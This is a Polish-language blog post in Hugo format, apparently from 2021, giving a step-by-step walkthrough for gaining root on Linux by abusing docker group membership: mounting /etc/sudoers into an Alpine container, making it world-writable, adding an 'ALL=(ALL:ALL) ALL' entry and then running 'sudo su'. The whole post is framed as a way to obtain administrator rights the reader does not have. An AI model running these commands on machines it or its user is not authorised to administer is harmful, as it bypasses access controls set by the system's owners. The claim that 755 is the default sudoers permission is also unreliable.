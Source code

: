 +++
categories = ["programming"]
date = "2021-07-24T20:00:00+02:00"
tags = ["programming", "docker", "linux"]
title = "Jak uzyskać dostęp do admina na Linuxie wykorzystując Dockera?"

+++

Nie posiadasz uprawnień administratora na lokalnym sprzęcie? Posiadasz Linuxa oraz Dockera? 
Jeżeli odpowiedź na powyższe pytania brzmi tak to w tym artykule pokażę Ci jak wykorzystać 
Dockera do modyfikacji pliku sudoers, dzięki czemu uzyskasz uprawnienia administratora.

<!--more-->

# Wymagania wstępne

Przedstawiony tutaj sposób wymaga, aby użytkownik z ograniczeniami miał dostęp do komend dockerowych, 
tzn. użytkownik należy do grupy docker. Konfiguracja dockera wymaga, aby użytkownik należał do 
tej grupy. Sposób ten działa wyłącznie na systemie Linux (testowane na Ubuntu).

# TLDR

* Odpalenie alpine linuxa z zamontowaniem pliku `/etc/sudoers` jako `sudoers` w kontenerze:
{{< highlight bash >}}
docker run -it -v /etc/sudoers:/sudoers --rm alpine /bin/sh
{{< /highlight >}}

* Zmiana uprawnień w celu edycji pliku `sudoers` za pomocą vi:
{{< highlight bash >}}
chmod 777 sudoers
vi sudoers
{{< /highlight >}}

* Dodanie użytkownikowi wymaganych uprawnień w pliku `sudoers` (klawisz `i` w celu dodania wpisu): 
{{< highlight bash >}}
# Pomiedzy user a ALL wymagana jest tabulacja (raz TAB, nie 4 spacje)
user	ALL=(ALL:ALL) ALL
{{< /highlight >}}

* Wyjście z zapisem z vi:
{{< highlight bash >}}
:wq
{{< /highlight >}}

* Ponowna zmiana uprawnień pliku `sudoers` na domyślne wartości oraz wyjście z konsoli kontenera:
{{< highlight bash >}}
chmod 755 sudoers
exit
{{< /highlight >}}

* Weryfikacja zmian w pliku `sudoers`:
{{< highlight bash >}}
cat /etc/sudoers
sudo su
{{< /highlight >}}

# Opis poszczególnych komend

## docker run -it -v /etc/sudoers:/sudoers --rm alpine /bin/sh

Komenda ta pozwala na pobranie obrazu alpine linuxa, a następnie odpalenie kontenera z tego obrazu. 
Parametr `-it` odpowiada za odpalenie trybu interaktywnego (pozostawia otwarty STDIN, nawet jeśli nie 
jest podłączony) oraz przydzielenie pseudo-TTY. 
Parametr `-v` wiążę katalog bądź plik hosta z wolumenem kontenera. W tym przypadku tworzymy powiązanie 
dla pliku hosta `/etc/sudoers` z plikiem `sudoers` w katalogu głównym naszego kontenera. 
Parametr `--rm` sprawia, że po zamknięciu i wyjściu z shella, utworzony kontener zostanie usunięty. 
Fragment `alpine /bin/sh` odpowiada za wybranie obrazu, z którego zostanie utworzony kontener (w tym 
przypadku linux alpine) oraz odpalenie polecenia (programu) `/bin/sh`, czyli powłoki systemu (shell).

## chmod 777 sudoers oraz vi sudoers

Plik `/etc/sudoers` domyślnie jest zabezpieczony przed edycją. Ze względu, że alpine jest minimalistyczną 
dystrybucją linuxa posiada domyślnie edytor plików vi. Pliki `sudoers` powinny być edytowane za pomocą 
visudo, jednak w alpine nie ma domyślnie tego zainstalowane. W celu edycji pliku należy nadać pełne 
uprawnienia do pliku obecnemu użytkowniki za pomocą komendy `chmod 777 sudoers` odpalonej w kontenerze z 
alpine. Następnie można otworzyć plik sudoers wykorzystując edytor vi za pomocą komendy: `vi sudoers`. 
Aby móc wpisywać tekst w edytorze vi należy nacisnąć na klawiaturze przyciski `i`.

## user	ALL=(ALL:ALL) ALL

Powyższy wpis pozwala na dodanie użytkownikowi `user` uprawnień do wykonywania wszystkich komend. 
Pierwsze pole wskazuje nazwę użytkownika, którego dotyczy reguła (user). 
Pierwsze „ALL” oznacza, że ta reguła dotyczy wszystkich hostów. 
Drugie „ALL” oznacza, że użytkownik user może uruchamiać polecenia jako wszyscy użytkownicy. 
Trzecie „ALL” oznacza, że użytkownik user może uruchamiać polecenia jako wszystkie grupy. 
Czwarte „ALL” oznacza, że te zasady dotyczą wszystkich poleceń (komend). 
Należy pamiętać o zachowaniu odpowiedniego formatowania w pliku. W przypadku Ubuntu między user, a ALL 
był odstęp z wykorzystaniem pojedynczej tabulacji (nie cztery spacje). Osobiście nie jestem, pewien 
czy użycie pojedynczej spacji, bądź 4 spacji nie zepsuje niczego, więc dla pewności zachowałem docelowe 
formatowanie.

## Wyjście z vi 

W celu wyjścia z edytora vi zapisując zmiany, należy nacisnąć na klawiaturze klawisz `esc`, a następnie wpisać 
`:wq`. Polecenia po dwukropku to komendy dla vi. `w` oznacza, iż chcemy zapisać zmiany wprowadzone w pliku 
natomiast `q` oznacza zamknięcie pliku.

## chmod 755 sudoers oraz exit

Zmieniamy uprawnienia do pliku sudoers na domyślne wartości przed edycją, a następnie wychodzimy z powłoki 
kontenera za pomocą komendy `exit`. Po wyjściu kontener z alpine zostanie usunięty. Pozostanie wyłącznie 
pobrany obraz na dysku. 

## cat /etc/sudoers oraz sudo su

W celu weryfikacji dostępów możemy wykorzystać polecenie `cat /etc/sudoers`, aby sprawdzić, czy wpisy 
poprawnie się dodały. Możemy też użyć komendy `sudo su`, aby sprawdzić, czy możemy wykonywać polecenia 
jako sudo.

# Wniosek

Jak widać docker pozwala na zmianę uprawnień dla użytkownika i modyfikację plików, do których domyślnie 
nie posiadamy dostępu. Grupa Docker należy do grup administratorskich, przez co użytkownik będący w tej 
grupie posiadający dostęp do wykonywania komend dockera, ma możliwość dowolnej modyfikacji plików, bez 
konieczności dostępu do praw administratora. 
